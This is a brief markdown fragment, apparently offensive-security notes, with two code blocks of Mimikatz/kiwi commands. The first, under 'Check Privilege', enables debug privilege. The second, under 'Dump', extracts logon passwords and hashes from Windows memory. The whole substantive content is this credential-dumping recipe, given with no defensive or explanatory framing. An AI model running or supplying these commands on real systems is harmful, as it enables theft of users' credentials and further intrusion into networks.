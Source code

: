 ## Check Privilege
```
kiwi_cmd privilege::debug
```

## Dump
```
kiwi_cmd sekurlsa::logonpasswords
```
